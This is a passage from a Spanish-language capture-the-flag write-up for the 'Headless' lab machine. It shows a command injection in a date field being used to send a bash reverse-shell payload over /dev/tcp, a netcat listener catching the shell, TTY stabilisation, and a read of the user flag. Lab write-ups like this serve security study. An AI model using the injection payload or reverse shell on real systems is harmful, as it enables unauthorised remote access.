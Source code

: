 Es un indicio de una inyección de comandos.

y efectivamente, enviar el oneliner favorito de bash para una reverse shell nos dará una consola interactiva a nuestro equipo:

`2023-09-15|bash -c "bash -i >& /dev/tcp/<your-ip>/443 0>&1"`

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.8 52456
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ script /dev/null -c bash # Inicia un nuevo proceso
script /dev/null -c bash
Script started, output log file is '/dev/null'.
dvir@headless:~/app$ ^Z # CTRL + Z
[1]  + 5184 suspended  nc -lvnp 443

❯ stty raw -echo; fg  # Pasar los controles de la terminal al proceso
[1]  + 5184 continued  nc -lvnp 443
                                   reset xterm  # Reiniciar el tipo de terminal
dvir@headless:~/app$ export TERM=xterm-256color  # Establecer el terminal a un xterm de 256 colores
dvir@headless:~/app$ source /etc/skel/.bashrc  # El toque final para darle color
```

En la carpeta personal del usuario que acabamos de comprometer, encontraremos la primera flag.

```bash
dvir@headless:~/app$ cd ~
dvir@headless:~$ ls -la
total 48
drwx------  8 dvir dvir 4096 Feb 16 23:49 .
drwxr-xr-x  3 root root 4096 Sep  9  2023 ..
drwxr-xr-x  3 dvir dvir 4096 Feb 16 23:49 app
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 .bash_history -> /dev/null
-rw-r--r--  1 dvir dvir  220 Sep  9  2023 .bash_logout
-rw-r--r--  1 dvir dvir 3393 Sep 10  2023 .bashrc
drwx------ 12 dvir dvir 4096 Sep 10  2023 .cache
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:05 geckodriver.log -> /dev/null
drwx------  3 dvir dvir 4096 Feb 16 23:49 .gnupg
drwx------  4 dvir dvir 4096 Feb 16 23:49 .local
drwx------  3 dvir dvir 4096 Sep 10  2023 .mozilla
-rw-r--r--  1 dvir dvir  807 Sep  9  2023 .profile
lrwxrwxrwx  1 dvir dvir    9 Feb  2 16:06 .python_history -> /dev/null
drwx------  2 dvir dvir 4096 Feb 16 23:49 .ssh
-rw-r-----  1 root dvir   33 Jul 20 18:03 user.txt
dvir@headless:~$ cat user.txt
2476d6ecef97458c62f5985078******
```

## Escalada de privilegios

Podemos ejecutar un script de Bash como sudo
